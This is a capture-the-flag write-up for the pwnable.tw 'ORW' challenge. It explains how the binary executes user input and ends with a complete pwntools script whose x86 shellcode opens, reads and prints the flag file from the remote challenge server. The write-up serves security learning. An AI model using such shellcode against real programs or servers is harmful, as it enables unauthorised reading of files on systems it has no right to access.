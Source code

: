 ```yaml
---
layout: post
author: tourpran
title: ORW - pwable.tw
categories: writeup
tags: ["pwnable.tw"]
---
```


> Hey guys, this is a pretty awesome challenge !! Here we will be writing assembly and then we will give it to the program(binary)

![](/assets/images/pwnabletw2/pwnable1.png)

### Solution: 

First I check the mitigations :

![](/assets/images/pwnabletw2/pwnable2.png)

* We have NX disabled. That means it is something to do with the shellcode.
* Seems like there is a canary which will not allow you to do a stack based buffer overflows.
* there is no pie so the address of the binary will be same every time you run.

Let's see the disassembly of this program
![](/assets/images/pwnabletw2/pwnable.gif)

Here we can see that our input is being put in the address ``0x804a060`` and then it is moved to EAX and then after that EAX is called.
Meaning: our input is being executed. Now, let us run the binary and see what is happening :>

![](/assets/images/pwnabletw2/pwnable3.png)

> Hmm… We get a segfault.

#### Idea:

* As said in the question we will you three syscalls and then get the flag
* First call: open the flag file
* Second call: read the file
* Third call: write it to the output

#### Exploit:

We will see the exploit in parts.

#### Part 1

![](/assets/images/pwnabletw2/pwnable4.png)

* We make EAX to 5
* we push the string “///home/orw/flag”
* We make EBX pointing to the stack ( the string )
* We make EDX equal to 0 and then we make the syscall.

#### Part 2

![](/assets/images/pwnabletw2/pwnable5.png)

* We make EAX equal to 3
* We make ECX point to the string
* Give EDX the buffer size
* Call the syscall

#### Part 3

![](/assets/images/pwnabletw2/pwnable6.png)

* We make EAX equal to 4
* Make EBX equal to 0
* Add 1 to EBX / making EBX equal to 1. Then call the syscall.

> Refer to the below image if having any doubts !!

![](/assets/images/pwnabletw2/pwnable7.png)

If we put all of the things together, then we get the flag.

![](/assets/images/pwnabletw2/pwnable8.png)

```py

from pwn import *
p = remote('chall.pwnable.tw',10001)
print p.recv()
s = asm("xor eax, eax")
s += asm("push eax")
s += asm("add eax, 5")
s += asm("push 0x67616c66")
s += asm("push 0x2f77726f")
s += asm("push 0x2f656d6f")
s += asm("push 0x682f2f2f")
s += asm("mov ebx, esp")
s += asm("mov edx, 0")
s += asm("int 0x80")
s += asm("mov eax, 3")
s += asm("mov ecx, ebx")
s += asm("mov ebx, 3")
s += asm("mov edx, 40")
s += asm("int 0x80")
s += asm("mov eax, 4")
s += asm("mov ebx, 0")
s += asm("inc ebx")
s += asm("int 0x80")
p.send(s)
f = p.recv()
print f
p.interactive()

```

> I hope you liked the write-up. More writeups on its way.